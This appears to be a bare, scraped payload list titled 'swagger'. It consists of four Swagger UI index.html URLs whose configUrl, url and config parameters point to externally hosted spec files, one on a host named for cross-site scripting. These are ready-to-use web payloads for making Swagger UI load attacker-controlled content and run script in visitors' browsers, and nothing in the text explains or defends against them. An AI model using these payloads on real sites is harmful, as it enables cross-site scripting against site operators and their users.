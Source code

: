 # swagger

/index.html?configUrl=https://jumpy-floor.surge.sh/test.json

/index.html?url=https://jumpy-floor.surge.sh/test.yaml

/index.html?configUrl=https://xss.smarpo.com/test.json&url=https://jumpy-floor.surge.sh/test.yaml

/docs/index.html?config=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json
